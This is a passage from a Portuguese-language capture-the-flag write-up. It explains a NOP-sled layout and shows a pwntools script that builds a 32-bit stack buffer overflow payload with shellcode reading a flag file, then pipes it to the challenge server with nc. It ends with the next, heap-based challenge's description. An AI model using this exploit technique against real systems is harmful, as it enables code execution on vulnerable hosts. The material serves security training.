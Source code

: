 Se o endereço de retorno estiver meio NOP sled para trás:
```
        |    ...   |    <- Endereço de retorno
        +----------+
Inicio->|          |    <- Endereço + meio NOP sled
 Meio ->| NOP sled |
  Fim ->|          |
        +----------+
        | Shellcode|
        +----------+
```

Agora que sabemos o que devemos fazer, vamos escrever o payload. Ele será o seguinte:

```python
#!/usr/bin/env python3

from pwn import *

# Faz o buffer overflow
payload = b'A' * 16                    # Preenche a stack até o endereço de retorno
payload += p32(0xffffd7a0+0x200)       # Coloca o endereço do shellcode + metade do NOP sled

# Coloca o shellcode
context.arch = 'i386'                                      # Define a arquitetura
context.bits = 32                                          # Define como 32-bits
payload += b'\x90' * 1000                                  # Coloca o NOP sled
payload += asm(shellcraft.cat('/home/ganesh/flag.txt'))    # Coloca o shellcode
payload += b'\n'

# Escreve para um arquivo
f = open('exploit.txt', 'wb')          # Abre um arquivo para escrita
f.write(payload)                       # Escreve o payload
f.close()                              # Fecha o arquivo
```

Rodando esse script com `python3 script.py` ou `./script.py`, é gerado um arquivo chamado `exploit.txt`. Agora enviando esse exploit para o servidor:

```
cat exploit.txt | nc [insira o servidor e a porta aqui]
Ganesh{y0u_g0t_pwn3d}
```

Conseguimos a flag.

# HEAPassword <a name="HEAP"></a>
```
Esse desafio é extra! Faça ele somente se tiver feito todos que não são ou prepare-se para frustração.

Me parece que esse é mais um daqueles crackme. Exceto que eu não consigo digitar uma senha! Será que tem algum jeito de inserir uma senha?

Referências: https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/
```

